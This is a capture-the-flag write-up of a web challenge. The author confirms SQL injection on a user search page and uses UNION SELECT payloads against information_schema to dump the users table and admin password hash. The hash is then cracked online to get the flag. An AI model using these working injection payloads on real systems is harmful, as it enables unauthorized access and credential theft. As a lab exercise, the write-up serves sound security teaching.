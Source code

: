 Challenge description:
==
< oops! I lost the challenge description during editing... >

---
At the website, there is a login page and a search user page.

After trying common sql on the login page with no interesting response, we move on to __search user page__ which had already loaded 2 columns of Username, Nickname for everyone to see.

---
First observation @ http://web.spro.ink:3008/search.php

Results:

|Username|	Nickname
|---|---|
|admin	|	superuser
|xinan	|	the guy
|wenyan	|	the girl
|potato	|	the food
|sadhi	|	the friend
|john	|	the stranger
	
---
Test for SQL vulnerability
==
We try to see if there are any response when given an invalid data like a single quote. 

Results
>	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1

When we see the error message, we can conclude that this input form is vulnerable to sql injection.

---
Constructing injection
==
From our very 1st observation, the 2 preloaded columns of Username and Nickname implied that a SELECT statement is inside.

My initial guess:	
```SQL
SELECT Username, Nickname from XXXX where Username='<input name here>'
```

We can make use of the ```UNION``` command to add another ```SELECT``` statements with same number of columns behind the guess.

There is also an interesting table known as ```information_schema``` in MySQL that can help provide us the Table name and its columns!

We proceed to inject the follow:
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE     '1'='1
```
    
Explanation:
- The first single quote terminate the string to be read by acting as a closing quote. Notice that the very last digit 1
do not have a closing quote? That's because we are making use of the closing quote within the hidden SQL command.

- ```UNION``` is used to exploit the fact we are aware of the hiden ```SELECT``` using 2 columns so we can combine with our own ```SELECT``` statement with 2 other interesting columns.

- where ```'1'='1'``` will always validate true so it will spew out all the table names and column names.

Results:

|Username	    |	Nickname|
|---|---|
|CHARACTER_SETS	|	CHARACTER_SET_NAME|
|CHARACTER_SETS	|	DEFAULT_COLLATE_NAME|
|CHARACTER_SETS	|	DESCRIPTION|
|CHARACTER_SETS	|	MAXLEN|
|COLLATIONS	    |	COLLATION_NAME|
|COLLATIONS	    |	CHARACTER_SET_NAME|
|COLLATIONS	    |	ID|
|COLLATIONS	    |	IS_DEFAULT|
|COLLATIONS	    |	IS_COMPILED|
|COLLATIONS	    |	SORTLEN|
|...|...|
|...|...|
|...|...|
|users|	        	id|
|users|	        	username|
|users|	        	password|
|users|	        	nickname|

---
Fine tuning
==
After knowing the Table name and column names, we can generate another SQL injection to get the credentials of admin
```sql
' UNION SELECT username, password FROM users WHERE '1'='1
``` 
Result:

|Username|	Nickname|
|---|---|
|admin|		79fff4b82b55a67cf96aa059dc1aa956|
|xinan|		7d493220036eb672a9e2d949920be704|
|wenyan|		7d493220036eb672a9e2d949920be704|
|potato|		7d493220036eb672a9e2d949920be704|
|sadhi|		7d493220036eb672a9e2d949920be704|
|john|		7d493220036eb672a9e2d949920be704|

---
Crack hash
==
We can crack the hash password @ https://crackstation.net/

The md5 hash password: ```clearwat```

Go login as admin with the password and we got the flag! :D 

---
flag{sql1_n3v3r_been_s0_eZ}

